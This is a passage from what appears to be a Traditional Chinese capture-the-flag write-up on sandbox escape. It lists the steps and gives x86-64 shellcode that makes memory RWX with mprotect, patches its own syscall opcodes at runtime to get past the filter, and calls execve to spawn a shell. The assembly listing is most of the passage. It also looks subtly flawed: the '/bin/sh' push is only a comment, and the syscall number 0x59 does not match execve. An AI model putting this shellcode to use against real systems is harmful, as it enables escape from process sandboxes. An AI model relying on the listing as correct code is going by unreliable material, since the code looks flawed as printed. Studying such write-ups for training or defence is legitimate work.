    ![Sandbox Exit 2 Mprotect](./resources/Sandbox-EXIT2Mprotect.png)
3. 呼叫 `mprotect` 讓記憶體區段權限改成 RWX
4. 在每次呼叫 `syscall` 前透過 `inc BYTE PTR [rip]` 把 opcode 改成正確的數值
5. 執行 `execve` system call，取得 shell

所以最終 Shellcode 就長這樣囉：

```asm
call $+5                    ;\xe8\x00\x00\x00\x00
push QWORD PTR [rip + 9]
mov rax, 40
syscall
pop r8
pop rdi
sub rdi, 0x19
mov rsi, 0x1000
mov rdx, 0x7
sub r8, 265
push r8
call QWORD PTR [rsp]

; push /bin/sh onto the stack
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
push 0x59
pop rax
; b"\x0E\x05", syscall
```
